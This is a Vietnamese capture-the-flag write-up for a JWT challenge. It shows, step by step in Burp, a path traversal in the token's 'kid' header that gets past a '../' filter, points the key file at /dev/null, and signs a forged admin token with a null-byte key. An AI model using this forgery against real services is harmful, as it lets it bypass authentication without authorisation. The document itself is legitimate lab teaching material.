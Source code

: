 # JWT - Unsecure File Signature

## Solution

Đây là một solution sử dụng JWT extension của burp.

- Giai đoạn Reco

    - Bắt đầu bằng cách gửi lệnh `GET /admin` tới tab Repeater.

    - Lưu ý việc sử dụng JWT như một phiên cookie. Thông qua JWT Extension của burp, hãy lưu ý việc sử dụng kid trong header. Lưu ý thêm rằng payload của JWT là:
    ```
    {
    "user": "guest",
    "iat": 1679390877
    }
    ```

    - Đổi "guest" thành "admin" trong header và giữ nguyên như vậy. Lưu ý rằng vẫn không có quyền truy cập vì kiểm tra chữ ký

- Thay đổi Key file: Path Traversal

Thử thực hiện Path Traversal ở `kid`:

```
{
"alg": "HS256",
"kid": "../dd",
"typ": "JWT"
}
```

Trong response có:

```
{"Unauthorized":"File keys/dd not found"}
```

Điều này cho thấy "../" đã được lọc. Có thể nó chỉ được thay thế bằng "". Vì vậy, hãy thử một payload khác:

```
{
"alg": "HS256",
"kid": "..././dd",
"typ": "JWT"
}
```

Lưu ý rằng response lần này là:

```
{"Unauthorized":"File keys/../dd not found"}
```

Sau đó chỉ cần trỏ tới file dev/null, file null trên Linux.

```
{
"alg": "HS256",
"kid": "..././..././..././..././..././dev/null",
"typ": "JWT"
}
```

Lần này response là

```
{"Unauthorized":"Invalid token signature"}
```

- Sửa đổi signature

Bây giờ cần sửa đổi signature để nó nhất quán với key file. May mắn thay, biết nội dung của dev/null: null.

Để làm được điều đó, bắt đầu bằng cách tạo một khóa. Trong burp trong tab JWT Editor Keys, tạo một New Symmetric Key. Nhấp vào Generate.

Sau đó, mẹo là thay đổi k của khóa thành AA==, đây là Null Byte được mã hóa base64.

Quay lại tab repeater, nhấp vào Sign và chọn khóa đã tạo trước đó.

Gửi request để lấy flag.